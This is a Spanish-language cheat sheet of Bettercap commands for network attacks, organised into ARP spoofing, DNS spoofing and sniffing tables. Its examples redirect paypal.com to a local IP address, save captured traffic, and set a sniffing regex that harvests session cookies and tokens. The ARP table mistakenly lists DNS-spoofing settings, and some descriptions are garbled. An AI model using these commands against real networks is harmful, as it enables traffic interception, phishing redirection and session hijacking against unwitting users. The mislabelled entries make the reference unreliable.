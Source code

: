 
## Lista de comandos

Bettercap tiene una gran cantidad de comandos que pueden ser utilizados para realizar diversos ataques.

### ARP Spoofing

| Comando | Descripción | Ejemplo |
|---------|-------------|---------|
| `arp.spoof` | Envía ARP falsos | arp.spoof on |
| `set dns.spoof.domains` | Configura el dominio a interceptar | set dns.spoof.domains paypal.com |
| `set dns.spoof.address` | Configura la IP del objetivo | set dns.spoof.address 192.168.100.210 |
| `set arp.spoof.ipv6` | Configura la IPv6 para el ARP spoofing | set arp.spoof.ipv6 on |


### DNS Spoofing

| Comando | Descripción | Ejemplo |
|---------|-------------|---------|
| `dns.spoof` | Envía respuestas falsas a las consultas DNS | dns.spoof on |
| `set dns.spoof.domains` | Configura el dominio a interceptar | set dns.spoof.domains paypal.com |
| `set dns.spoof.address` | Configura la IP del objetivo | set dns.spoof.address 192.168.100.210 |
| `set dns.spoof.ttl` | Configura el tiempo de vida de la cache | set dns.spoof.ttl 10 |

### Net sniffing

| Comando | Descripción | Ejemplo |
|---------|-------------|---------|
| `net.sniff` | Captura todos los tráfico de red | net.sniff on |
| `net.show` | Muestra información sobre la red | net.show |
| `net.probe` | Proba la conectividad de la red | net.probe on |
| `set net.sniff.regexp` | Configura la expresión regular para capturar el tráfico | set net.sniff.regexp (session=|sessid=|token=|PHPSESSID=)([^\s]*)' |
| `set net.sniff.filter tcp port`  | Configura el filtro para capturar el tráfico | set net.sniff.filter tcp port 80 |
| `set net.sniff.output captura.pcap` | Configura el archivo de salida para guardar el tráfico capturado | set net.sniff.output captura.pcap |
| `set net.sniff.nbns` | Activa el sniffing de NetBIOS | set net.sniff.nbns true |
| `set net.probe.nbns` | Activa el reconocimiento de NetBIOS | set net.probe.nbns true |

- Tráfico NetBIOS que incluye:

  - Resolución de nombres de equipos Windows
  - Compartición de archivos
  - Servicios de impresión
